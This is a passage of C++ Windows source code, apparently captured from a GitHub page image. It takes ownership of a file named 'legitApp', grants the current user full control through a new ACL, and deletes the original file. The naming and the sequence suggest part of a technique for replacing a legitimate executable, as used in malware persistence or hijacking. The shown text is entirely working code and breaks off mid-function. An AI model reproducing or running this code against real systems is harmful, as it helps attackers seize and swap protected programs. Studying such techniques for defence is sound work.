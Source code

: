 ```cpp
    return 1;
  }
  printf("init security descriptor: ok\n");

  // set the owner in the security descriptor
  if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
    printf("failed to set security descriptor owner: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting security descriptor owner: ok\n");

  // apply the security descriptor to the file
  if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
    printf("error setting file ownership: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting file ownership: ok\n");

  // set full control for the current user
  EXPLICIT_ACCESS ea;
  PACL pNewAcl = NULL;

  ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
  ea.grfAccessPermissions = GENERIC_ALL;
  ea.grfAccessMode = SET_ACCESS;
  ea.grfInheritance = NO_INHERITANCE;
  ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
  ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
  ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

  if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
    printf("error setting new ACL: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting new ACL: ok\n");

  if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, NULL, 
  NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
    printf("error setting security info: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    LocalFree(pNewAcl);
    return 1;
  }
  printf("setting security info: ok\n");

  free(pTokenUser);
  CloseHandle(hToken);
  LocalFree(pNewAcl);

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("error deleting original file: %d\n", GetLastError());
```